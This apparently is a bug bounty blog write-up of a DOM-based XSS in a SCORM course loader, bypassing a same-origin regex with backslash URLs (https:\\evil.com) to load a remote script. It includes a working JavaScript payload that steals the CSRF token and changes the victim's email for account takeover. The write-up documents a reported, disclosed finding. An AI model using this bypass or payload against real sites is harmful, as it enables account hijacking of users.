





## Intro
Hey there, reader. I hope you are having a good day. In this blog post I will be sharing the story of a DOM based XSS I have found on a private bug bounty program. I will start from explaining how an LLM I used told me that the javascript snippet in use was secure, how I came up with a regex bypass and how I escalated the PoC from a Medium severity to a one-click account takeover.

Throughout this finding, I will refer to the program as `target.com`, since I am not able to share any details about the target.

Get your coffee and enjoy.

## Initial testing
I found this target on a private bug bounty program. As usual I have created an account and started looking for interesting behaviour.

Target is a course provider, who offers learning material created by their partners through SCORM (Sharable Content Object Reference Model). SCORM is a standard that lets eLearning courses and Learning Management Systems (LMS) talk to each other.

Since each partner was using their own implementation of the API and scripts I knew that there would be plenty of inconsistencies. Most of these courses were paid. Luckily some of them offered partial access which I could hunt for bugs.

I have opened the course page. Let's call the endpoint `https://target.com/start.html`. It would load a script called `run.js`. What I usually do in this situation is, check the JS Sources and JS Sinks tabs I have implemented using Piper.



Piper is a very flexible burp extension that allows you to send the contents of certain HTTP requests as an input to certain scripts. Here I have created 2 scripts, where one checks for common **javascript sinks** (eg. `eval`, `innerHTML` etc.) and the other one checks for sources (eg. `URLSearchParams`, `hash` etc.).

This way when I am looking for quick low hanging fruits, I won't have to search them manually. If you are interested, in future I might create a separate blog post on how to setup Piper :).

In this case I was able to find a custom function called `getParameter`.



Here the next step would be to find out where this function is being called. In the minified javascript I have found the following function that uses `getParameter` and checks whether the query parameter `e` has the right protocol. This is usually used to prevent XSS via the `javascript` protocol.

```
function s(t, e, i) {
    var r = /^(http|https|file):/,
        o = n.getParameter(t, e, "");
    return r.lastIndex = 0,
        o && o.length > 0 && (
            o = decodeURIComponent(o),
            o = n.removeLastSlash(o),
            o.match(r)
        ) ? o : i   // falls back to default "../content" if check fails
}
```

Here we already see a pattern that the developers of this course had security in mind. This is where most hunters get demotivated. But you can't be forgetting that the developers are still humans and are prone to making mistakes.

I continued to see where this function was called.



I have realized that the developers were checking the validity of the `contentPath` query parameter and were using that to dynamically load some of the scripts. In case of a validation issue, it would fallback to `../content`. This is especially juicy, from an XSS perspective. You don't need to bypass any WAFs or deal with size limits. The app will simply load and run the script you point at.

Excited I quickly put my Burp collaborator and waited for any callback. Nothing happened..


Confused I started looking what the hell was going on. I started looking why it was falling back to the `../content`, as the content directory. After some investigation I have found the following snippet

```
xdRegExp: /^((\w+)\:)?\/\/([^\/\\]+)/,
useXhr: function(t, e, r, o) {
    var a, s, u, c = i.xdRegExp.exec(t);
    return !c || (
        a = c[2],   // protocol
        s = c[3],   // hostname
        s = s.split(":"),
        u = s[1],
        s = s[0],
        (!a || a === e) &&
        (!s || s.toLowerCase() === r.toLowerCase()) &&
        (!u && !s || n(a, u, e, o))
    )
}
```

**HOLY REGEX!**


I didn't understand a bit on what was going on. So I prompted claude to explain it to me. The agent told me that, the snippet was checking whether the given URL (value of `contentPath` in this case) has two forward slashes (`//`) and if that is the case whether it is same-origin.
It also told me that this is a "dead-end" for achieving XSS.

Well I thought, Claude knows it better. So for the next 2 days I decided to test on other targets, even reported multiple XSS.

But for some reason this snippet was still back in my mind somewhere. I started to look at the source code again, with fresh thoughts.

Then I have remembered something crucial. [WHATWG URL specification](https://url.spec.whatwg.org/) states that for special schemes (http, https) backslashes (`\\`) are treated as path separators equivalent to forward slashes (`//`)

Meaning the browser will normalize `https:\\evil.com\path` to `https://evil.com/path`. Since the regex `//` does not apply for this, it will be considered same origin and will fetch the remote script.

I have quickly hosted a script using my VPS, that serves an `alert` and voila.



## Increasing the severity
An XSS just doing `alert` is usually considered low severity. However with some creativity almost all XSS can lead to some sort of higher severity. In my case it was fairly simple. The session cookie of the application had the `Same-Site` attribute set to `Lax`. Meaning the browser will not send the session cookies sent POST requests initiated from cross origin websites.

The cookie was `HttpOnly` as well, meaning we wouldn't be able to steal them.

However by utilizing an XSS in a website, we can easily perform CSRF attacks, since they are initiated from same-origin. I have chosen the classic, email-change functionality.

```
fetch('/profile', {credentials: 'include'})
  .then(r => r.text())
  .then(html => {
    let doc = new DOMParser().parseFromString(html, 'text/html');
    let token = doc.querySelector('input[name="_token"]').value;
    let email = doc.querySelector('#userMail').textContent.trim();

    let body = new URLSearchParams({
      '_token': token,
      'current-email': email,
      'email': 'ATTACKER@example.com',
      'email_confirmation': 'ATTACKER@example.com'
    });

    return fetch('/profile/email/change', {
      method: 'POST',
      credentials: 'include',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest'
      },
      body: body.toString()
    });
  })
  .then(r => r.text())
  .then(console.log);
```

In simple terms this code fetches the profile page, grabs the current email as well as the **csrf token** and makes a request to change the victim's email to the attacker email.

I quickly tested it and the result was relieving




Afterwards I reported it and after a week or so the submission got accepted as High severity and a payout was registered.


I hope you enjoyed my writeup and learnt something new. I will see you on the next one.
